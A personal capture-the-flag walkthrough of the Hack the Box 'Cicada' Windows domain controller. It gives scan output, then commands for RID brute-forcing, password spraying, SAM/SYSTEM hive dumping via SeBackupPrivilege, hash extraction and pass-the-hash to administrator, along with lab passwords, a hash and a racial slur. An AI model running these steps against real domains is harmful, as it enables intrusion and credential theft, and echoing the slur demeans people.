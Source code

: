```yaml
---
title: Cicada - Hack the Box
date: 2024-10-13 12:07:03 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Cicada.png
---
```

---
title: 2024-10-12-Cicada - Hack the Box
date: 2024-10-13 12:01:04 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/2024-10-12-Cicada.png
---
### Scan
```
Nmap scan report for 10.10.11.35
Host is up (0.12s latency).
Not shown: 65522 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-10-03 23:26:01Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
57094/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: CICADA-DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 7h00m00s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-10-03T23:26:51
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 373.81 seconds

```
### Enum
Dealing with Domain Controller!
```
Cicada$M6Corpb*@Lp#nZp!8
```


`nxc smb 10.10.11.35 -u 'null' -p '' --rid-brute` Elite way to brute users for dc

holy fuck nxc `nxc smb 10.10.11.35 -u /home/li0t/Desktop/HTB/Cicada/users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'`

ldapdomaindump underrated goat? `ldapdomaindump --user cicada.htb\michael.wrightson --password 'Cicada$M6Corpb*@Lp#nZp!8' -m 10.10.11.35` make sure to do in specified dir because it outputs json and html files.

creds for david! ![Image](/assets/Screenshot 2024-10-04 at 11.48.52 AM.png) `aRt$Lp#7t*VQ!3`

Backup script in DEv

emily creds (a lot of lateral, no?) `emily.oscars` `Q!3@Lp#M6b*7t*Vt`

evilwinrm with emily creds. whoami /priv reveals SEbackuppriv!

I couldnt get og blackfield method to work, so found easier way 
```
reg save hklm\sam C:	emp\SAM
reg save hklm\system C:	emp\SYSTEM
```

then, make sure in correct dir, 
`download .\SAM` and `download .\SYSTEM`

copied correctly ![Image](/assets/Screenshot 2024-10-04 at 12.24.12 PM.png) 

get NTLM hashes with `python3 secretsdump.py -system SYSTEM -sam SAM LOCAL`. make sure to copy correct secrets dump to dir

![Image](/assets/Screenshot 2024-10-04 at 12.27.28 PM.png)

now pass that hash nigga `evil-winrm -i 10.10.11.35 -u "administrator" -H '2b87e7c93a3e8a0ea4a581937016f341'`

boom ![Image](/assets/Screenshot 2024-10-04 at 12.28.03 PM.png)
